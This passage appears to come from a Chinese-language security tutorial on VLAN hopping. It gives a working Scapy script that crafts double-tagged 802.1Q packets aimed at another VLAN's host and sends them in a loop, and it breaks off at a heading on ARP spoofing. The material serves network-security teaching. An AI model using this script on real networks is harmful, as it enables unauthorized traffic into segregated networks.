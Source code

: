 # 跳跃攻击

VLAN 跳转是攻击者能够将流量从一个 VLAN 发送到另一个 VLAN 的攻击类型。我们可以用两种方法来实现这一点：双标记和开关欺骗。

为了创建双标记攻击，攻击者发送一个包含两个**802.1Q**标记的数据包——内部 VLAN 标记是我们计划访问的 VLAN，外层是当前 VLAN。

# 怎么做。。。

以下是模拟简单 VLAN 跳转攻击的步骤：

1.  创建一个`vlan-hopping.py`文件并在编辑器中打开。
2.  导入模块并设置变量：

```
import time
from scapy.all import *
iface = "en0"
our_vlan = 1
target_vlan = 2
target_ip = '192.168.1.2'  
```

3.  用两个 802.1Q 标签制作数据包：

```
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)   # vlan tag 1 
dot1q2 = Dot1Q(vlan=target_vlan) # vlan tag 2
ip = IP(dst=target_ip)
icmp = ICMP()
packet = ether/dot1q1/dot1q2/ip/icmp  
```

数据包如下所示：

![](../images/00058.jpeg)

4.  现在，以无限循环发送这些数据包：

```
try:
    while True:
        sendp(packet, iface=iface)
        time.sleep(10)
  except KeyboardInterrupt:
     print("Exiting.. ")
     sys.exit(0)  
```

5.  使用所需权限运行脚本：

```
sudo python3 vlan-hopping.py  
```

# 基于 VLAN 跳变的 ARP 欺骗
